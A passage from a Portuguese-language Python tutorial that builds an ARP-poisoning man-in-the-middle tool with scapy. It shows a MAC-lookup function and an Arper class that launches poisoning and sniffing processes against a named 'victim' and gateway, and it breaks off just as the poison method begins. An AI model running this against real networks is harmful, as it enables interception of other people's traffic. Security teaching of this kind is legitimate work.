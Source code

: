 Agora nossa função poderá capturar o endereço MAC tanto da nossa vítima quanto do nosso gateway, que nos permitirá executar o enevenamento sem ter que usar o comandos acima. Em seguida, modificaremos nossa classe `Arper`:

```py
from multiprocessing import Event, Process
from scapy.all import (ARP, Ether, conf, get_if_hwaddr, 
                       send, sniff, sndrcv, srp, wrpcap,sendp)
import os
import sys
import time

def get_mac(target_ip):
    packet = Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(op='who-has', pdst=target_ip)
    resp, _ = srp(packet, timeout=2, verbose=False)
    for _, r in resp:
        return r[Ether].src
    return None

class Arper:
    # Instanciação da classe, com os parametros de IP dados. Note que pegamos os MAC dinamicamente
    def __init__(self, victim, gateway, interface='Wi-fi'):
        self.victim = victim
        self.victimmac = get_mac(victim)
        self.gateway = gateway
        self.gatewaymac = get_mac(gateway)
        self.interface = interface
        conf.iface = interface
        conf.verb = 0
        # Event() é uma variável da lib de multiprocessing para ajudar a determinar quando encerrar um processo
        self.stop_event = Event()
        
        print(f'{interface} inicializada:')
        print(f'Gateway ({gateway}) está em {self.gatewaymac}')
        print(f'Vítima ({self.victim}) está em {self.victimmac}')
        print('-'*30)
    
    # Função run(), executa o que deve ser usado na lógica principal
    # Não são instanciadas `self.threads` pois isso causa um erro de tipagem no
    # Process. 
    def run(self):
        # Thread de poison (que recebe o evento de parada - Ctrl + C)
        poison_thread = Process(target=self.poison, args=(self.stop_event,))
        poison_thread.start()
        
        # Thread de sniffing, que recebe a contagem de pacotes a serem recebidos 
        sniff_thread = Process(target=self.sniff, args=(10,))
        sniff_thread.start()
        
        # Aguarda as duas threads terminarem 
        poison_thread.join()
        sniff_thread.join()
 
    # Função poison:
    # Basicamente ela envia 2 pacotes, um para o roteador (interface) outro para o alvo
    # Para o roteador ela fala "Esse endereço de IP da vítima, encontra-se no MAC do atacante"
    # Para a vítima ela fala "Esse endereço de IP do roteador, encontra-se no MAC do atacante"
    #
    # Logo, ao enviar a mensagem pelo protocolo "is-at", que é o protocolo-padrão de solução da tabela ARP
    # Ambos acreditarão que devem mandar mensagem para o nosso MAC, ao invés de entre si, o que nos permintirá interceptar os pacotes
    def poison(self, stop_event):
```